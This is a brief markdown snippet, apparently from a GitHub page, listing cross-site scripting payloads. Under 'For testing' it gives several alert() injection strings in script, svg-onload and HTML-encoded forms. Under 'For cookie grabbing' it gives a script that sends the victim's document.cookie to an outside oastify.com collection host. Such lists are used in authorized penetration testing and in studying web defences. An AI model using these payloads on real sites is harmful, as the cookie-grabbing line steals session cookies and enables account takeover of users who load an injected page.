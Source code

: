 #### For testing.
```js
<script>alert(1)</script>
<svg/ onload=alert(123)//
">cyborg71<script>alert(1337)</script>
<script onclick="alert(1)">
xss&lt;script&gt;alert&#40;1337&#41;&lt;&#47;script&gt;
```
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
